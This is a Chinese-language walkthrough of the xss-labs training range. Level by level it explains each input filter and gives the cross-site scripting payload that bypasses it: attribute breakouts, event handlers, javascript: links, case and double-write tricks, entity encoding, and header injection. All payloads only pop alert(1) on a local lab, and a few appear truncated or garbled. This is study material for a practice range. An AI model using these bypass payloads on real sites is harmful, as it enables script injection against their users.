

# XSS靶场通关

## less-1（无防范）

没有任何防范，我们get请求发送的内容直接显示，get传参payload即可

```
<script>alert(1);</script>
```

## less-2（闭合）

可以看到在`<h2>`标签这里他将`<`和`>`进行了编码（即使用了htmlspecialchars()函数进行了过滤），而在输入`<input>`这个标签中，他是没有被编码的，但是可以看到我们的注入语句被放到了value值当中，这样浏览器是不会执行我们的注入语句的，所以我们要构造闭合

```
'"><script>alert(1);</script>
```

## less-3（onclick onfocus事件绕过）

这一关可以看到input标签中输出了，但是检查发现input标签中的value属性也被htmlspecialchars()处理了，但是查看源码发现htmlspecialchars()函数是默认设置，所以单引号不会被处理。那么可以尝试闭合input标签的value属性，加上onfocus事件或者onblur事件、onclick事件来进行xss攻击

```)
我们使用一个onclick事件属性进行一个绕过构造payload
' οnclick='alert(1)'

也可以使用onfocus事件进行绕过，构造payload
' οnfοcus='alert(1)'

onblur事件（失去焦点时执行）
' onblur='alert(1)'

或者这种写法
' onblur='javascript:alert(1)'
```

## less-4（onclick onfocus事件绕过闭合）

发现单引号不能闭合input标签的value属性对应值的引号，所以再加一个双引号来闭合

```
'" onclick='alert(1)'
'" onblur='alert(1)'

或者这种写法
'" onblur='javascript:alert(1)'
```

## less-5（a href 标签javascript伪协议绕过）

这一关将script和onblur等都进行了替换，中间加了个_导致失效，且由于有strtolowers（），所有的大写字母都会被转成小写无法使用大小写绕过，那么我们可以考虑直接去闭合整个input标签，自己再添加上a标签，a标签中使用javascript伪协议指定js代码执行

构造payload

```
'"><a href='javascript:alert(1)'>
```

## less-6（大小写绕过）

尝试上一关的payload，发现href被处理了，中间加了_，使用大小写混合绕过

```
'"><a HREF='javascript:alert(1)'>

或者
'"><a HREF='javascript:alert(1)'>1</a>
```

## less-7（双写绕过）

尝试上一关的payload发现script、href等被替换为空了，使用双写绕过

```
'"><a HRhrefEF='javascscriptript:alert(1)'>
```

## less-8（unicode编码绕过）

编码网站
http://tools.gree020.cn/unicode/

https://tool.chinaz.com/tools/unicode.aspx

尝试第5关的payload发现很多关键词都被加了_，比如href、script，尝试大小写绕过也不行，但是这里发现我们输入的payload被放在了其中的一个a标签的href属性中，直接尝试javascript伪协议，发现被转化成饿了html实体编码，这里使用unicode编码绕过，将`javascript:alert(1)`unicode转ascii（十进制ascii码）转成十六进制unicode编码也行

注意：只有作为属性值的时候才能进行编码

```
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;
```

## less-9（注释http://绕过）

查看源码发现使用了strpos函数去查找我们的payload中含不含http://，如果不含的话不会输出我们的payload，所以我们在之前的语句后加一个**//http://**注释掉http://，并且这里需要将原payload：`javascript:alert(1)`进行unicode编码，不然会被加_

```
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;//http://
```

## less-10（隐藏的传参）

发现上面的测试手段不太行了，但是查看页面源码发现了三个隐藏的input name分别为（t_link t_history t_sort），那么根据他们的name构造传参，谁出来了谁就能利用`http://192.168.32.1/xss-labs/level10.php?keyword=well%20done!&t_link=aa&t_history=bb&t_sort=cc`可以看到cc输出到了某个input标签的value属性对应的值的位置，那么我们构造如下payload，让他们的type从hidden变为text，不再隐藏，并执行js代码

**注意：这里的type属性谁在前面，浏览器就会用谁**

```
'" type='text' onclick='alert(1)'

或者
'" type='text' onclick='javascript:alert(1)'
```

## less-11（Referer注入）

这一关和第十关有点像，也是发现几个隐藏的输入框，而且t_sort也能输出到了某个input标签的value属性对应的值的位置但是这里无法闭合，推测是被htmlspecialchars了，但是发现t_ref那个输入框的value值为referer请求头的值（且查看源码发现没有过滤），那么这里可以尝试给referer值加上xss的payload来进行测试

通过buro抓包来修改，payload用的还是第十关的payload。当第十关完成的时候，点击确定，然后抓包，可以抓到第十一关的数据包，然后将referer改为上面的payload

```
'" type='text' onclick='alert(1)'
```

## less-12（User Agent注入）

检查发现有个input标签name为t_ua，值为user agent的值，和上一题差不多抓包构造User Agent的payload

```
'" type='text' onclick='alert(1)'
```

## less-13（cookie注入）

检查发现有个input标签name为t_cook，值为cookie的值，和前两题差不多抓包构造Cookie的payload

user=`'" type='text' onclick='alert(1)'`

```
'" type='text' onclick='alert(1)'
```

## less-14（题有问题直接跳过）

## less-15（ng-include文件包涵）

先使用src传参试试，发现有输出，有个nginclude。



他是可以引入某个html页面那我们就把第一关的页面引入尝试一下

```
?src='http://192.168.32.1/xss-labs/level1.php?name=test'
```

这里成功引入我们第一关的html文件

使用第一关的漏洞`src='http://192.168.32.1/xss-labs/level1.php?name=test?name<script>alert(1);</script>'`让第一关弹窗，尝试后发现不行，应该是有过滤把`<script>`过滤掉了（注意，这里不能包涵那些直接弹窗的东西如`<script>`，但是可以包涵那些标签的东西比如`<a>、<input>、、<p>`标签等等，这些标签是能需要我们手动点击弹窗的），这里我们使用img标签

```
'

也可以用a标签
<a href=javascript:alert(1)>'
```

## less-16（url编码）

使用上一关的img标签payload发现有输出但是进行了html实体编码，空格被变成了html实体编码`&nbsp;`，我们将空格的编码替换成回车的编码进行尝试

[UrlEncode - 在线URL网址编码、解码](https://www.qianbo.com.cn/Tool/Url-Encode.html)

```

```

## less-17（embed标签）

embed标签可以理解为定义了一个区域，可以放图片、视频、音频等内容，但是相对于他们，embed标签打开不了文件的时候就会有块错误的取余。也可以绑定各种事件，比如尝试绑定一个onmouseover事件（鼠标移动到上面就会触发的事件）。后台看代码用了htmlspecialchars，所以直接写标签是不行的。

我们传参的内容被输出到embed标签属性上了，直接闭合然后绑定事件即可

```
' onmouseover='alert(1)'

' οnclick='alert()'
```

## less-18（embed标签）

一样

## less-19 and 20（flash已经全面停止使用了，直接不做了）

这两关涉及到flash触发的xss漏洞，现在flash技术全面停止使用了，所以不做了
